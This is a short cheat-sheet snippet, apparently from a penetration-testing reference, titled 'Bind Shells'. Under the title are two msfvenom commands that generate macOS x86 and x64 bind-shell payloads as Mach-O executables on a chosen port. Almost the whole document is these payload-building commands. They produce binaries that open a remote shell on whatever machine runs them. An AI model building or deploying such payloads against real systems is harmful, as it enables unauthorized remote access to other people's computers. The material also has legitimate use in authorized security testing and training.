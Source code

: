 # Bind Shells

`$ msfvenom -p osx/x86/shell_bind_tcp lport=<PORT> -f macho -o shell_x86`

`$ msfvenom -p osx/x64/shell_bind_tcp lport=<PORT> -f macho -o shell_x64`